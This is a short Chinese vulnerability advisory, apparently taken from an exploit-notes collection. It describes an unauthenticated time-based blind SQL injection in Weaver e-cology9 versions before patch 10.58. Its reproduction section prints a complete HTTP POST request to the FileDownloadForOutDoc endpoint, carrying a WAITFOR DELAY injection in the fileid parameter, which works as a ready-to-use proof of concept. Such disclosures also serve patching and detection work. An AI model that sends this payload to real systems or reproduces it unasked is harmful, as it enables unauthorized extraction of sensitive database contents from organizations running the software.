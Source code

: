 #### 影响范围

泛微E-cology9 补丁版本 < 10.58

#### 漏洞概述

泛微协同管理应⽤平台(e-cology)是⼀套兼具企业信息⻔户、知识管理、 数据中⼼、⼯作流管理、人力资源管理、客户与合作伙伴管理、项⽬管理、财务管理、资产管理功能的协同商务平台，泛微 ecology9协同办公系统在10.58.0补丁之前存在SQL注⼊漏洞，未经授权的攻击者可以利⽤延时盲注进⾏SQL注⼊从⽽获取数据库中的敏感信息

#### 漏洞复现

请求数据包：

```
POST /weaver/weaver.file.FileDownloadForOutDoc HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0;
Content-Length: 70
Accept-Charset: utf-8
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

fileid=2+WAITFOR+DELAY+%270:0:3%27&isFromOutImg=1
```

